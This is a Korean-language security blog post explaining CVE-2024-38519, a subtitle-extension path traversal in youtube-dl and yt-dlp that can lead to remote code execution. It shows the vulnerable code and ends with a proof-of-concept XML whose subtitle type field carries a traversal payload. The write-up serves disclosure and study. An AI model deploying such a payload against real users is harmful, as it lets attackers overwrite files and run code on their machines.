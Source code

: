 ```yaml
---
title: "[하루한줄] CVE-2024-38519 : youtube-dl 및 yt-dlp의 Path Traversal로 인한 RCE"
author: L0ch
tags: [L0ch, youtube-dl, yt-dlp, path traversal]
categories: [1day1line]
date: 2024-07-17 20:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[https://securitylab.github.com/advisories/GHSL-2024-089_youtube-dl/](https://securitylab.github.com/advisories/GHSL-2024-089_youtube-dl/)

[https://securitylab.github.com/advisories/GHSL-2024-090_yt-dlp/](https://securitylab.github.com/advisories/GHSL-2024-090_yt-dlp/)

## Target

- youtube-dl
    - nightly release < v2024.07.03
    - official release 모든 버전
- yt-dlp
    - official release < v2024.07.01

## Explain

youtube-dl은 유튜브를 포함한 동영상 호스팅 사이트의 동영상을 다운로드하는 오픈소스 소프트웨어입니다. 공식 버전은 2021년 12월 17일 이후로 유지보수되지는 않으나, [ytdl-nightly](https://github.com/ytdl-org/ytdl-nightly) 저장소에서 지속적으로 업데이트되고 있습니다.

yt-dlp는 youtube-dl의 fork로, youtube-dl 프로젝트 중단 이후로 대부분의 사용자가 사용하는 다운로더이며 약 76,000의 star를 받는 등 인기있는 오픈소스 프로젝트 중 하나입니다. 이러한 두 소프트웨어에서 자막 파일 확장자 검증 미흡으로 인한 Path Traversal 취약점이 발견되어 세부 정보가 공개되었습니다.

yt-dlp 및 youtube-dl(이하 yt-dlp)은 영상뿐만 아니라 `--write-subs`, `--write-auto-subs`,  `--all-subs`, `--write-srt`(only yt-dlp) 옵션을 통해 자막 또한 다운로드할 수 있습니다. 지원되는 동영상 호스팅 웹사이트마다 [전용 자막 extractor](https://github.com/yt-dlp/yt-dlp/tree/master/yt_dlp/extractor)가 존재합니다.

자막 추출 과정은 각 extractor 구현 방식에 따라 아래와 같이 여러 방식으로 동작합니다.

1. extractor가 자막의 URL만 제공하는 경우
    - yt-dlp core가 직접 URL에 포함된 자막의 확장자를 확인함
2. extractor가 URL 및 자막 확장자를 명시적으로 제공하는 경우
    - 일부 extractor는 추출된 자막 확장자를 검증함.
    
    ```python
    # anvato.py
    a_caption = {
        'url': caption['url'],
        'ext': 'tt' if caption.get('format') == 'SMPTE-TT' else None
    }
    subtitles.setdefault(caption['language'], []).append(a_caption)
    ```
    
    - 일부 extractor는 추출된 자막 확장자를 검증하지 않음
    
    ```python
    # microsoftvirtualacademy.py
    subtitles.setdefault('en', []).append({
        'url': '%s/%s' % (base_url, subtitle_url),
        'ext': source.get('type'),
    })
    ```
    

취약점은 yt-dlp가 자막 확장자를 검증하지 않는 2번 동작 방식의 extractor에서 자막을 빌드할떄 발생합니다.

```python
    for sub_lang, sub_info in subtitles.items():
      sub_format = sub_info['ext']
      sub_filename = subtitles_filename(filename, sub_lang, sub_format, info_dict.get('ext')) # <------------- [1]
      sub_filename_final = subtitles_filename(sub_filename_base, sub_lang, sub_format, info_dict.get('ext'))
      existing_sub = self.existing_file((sub_filename_final, sub_filename))
      if existing_sub:
          self.to_screen(f'[info] Video subtitle {sub_lang}.{sub_format} is already present')
          sub_info['filepath'] = existing_sub
          ret.append((existing_sub, sub_filename_final))
          continue

      self.to_screen(f'[info] Writing video subtitles to: {sub_filename}')
#...

      try:
          sub_copy = sub_info.copy()
          sub_copy.setdefault('http_headers', info_dict.get('http_headers'))
          self.dl(sub_filename, sub_copy, subtitle=True) # <------------- [2]
          sub_info['filepath'] = sub_filename
          ret.append((sub_filename, sub_filename_final))
#...
```

yt-dlp는 [1]에서 extractor에서 제공한 자막 확장자 `sub_info['exe']`를 신뢰하고 별다른 검증 없이 출력할 자막파일의 이름 `sub_filename` 을 구성하고, [2]에서 구성된 자막파일 이름을 사용해 빌드합니다.

해커는 파일 확장자에 path traversal payload를 삽입해 취약점을 트리거할 수 있습니다.

기본적으로 sub_filename은 `[title][id].[sub_lang].[sub_format]` 로, 확장자가 마지막에 구성되어 `[not_existing_path]/../../../[payload]`  와 같이 구성 가능합니다. 이는 존재하지 않는 디렉터리가 포함된 경로를 허용하지 않는 Linux에서는 작동하지 않으나 Winows에서는 작동합니다.

![Untitled](2024-07-17/Untitled.png)

```python
<videoSettings version="1.5">
  <PlaylistItems>
    <PlaylistItem>
      <MediaSources videoType="progressive">﻿<MediaSource videoMode="720p" mimeType="video/mp4" codec="avc1.42E01E,mp4a.40.2" default="true">http://video.ch9.ms/ch9/1089/193d8990-f065-432e-87d7-981c61e41089/636AzureFundamentalsVM01_high.mp4</MediaSource>﻿<MediaSource videoMode="540p" mimeType="video/mp4" codec="avc1.42E01E,mp4a.40.2" default="false">http://video.ch9.ms/ch9/1089/193d8990-f065-432e-87d7-981c61e41089/636AzureFundamentalsVM01_mid.mp4</MediaSource>﻿<MediaSource videoMode="360p" mimeType="video/mp4" codec="avc1.42E01E,mp4a.40.2" default="false">https://sec.ch9.ms/ch9/1089/193d8990-f065-432e-87d7-981c61e41089/636AzureFundamentalsVM01.mp4</MediaSource></MediaSources>
      <MediaSource />
      <Title>01 | Introduction</Title>
      <MarkerResourceSource type="/../../poc.bin">content/content_gfvxismeb_6804984382/subtitles</MarkerResourceSource>
      <ThumbSource />
    </PlaylistItem>
  </PlaylistItems>
</videoSettings>
```

취약점은 위와 같이 추출 타겟이 될 XML을 생성하고 호스팅하는 것으로 트리거 가능하며, 이로 인해 실행 파일 등을 overwrite하는 것으로 RCE까지 이어질 수 있습니다.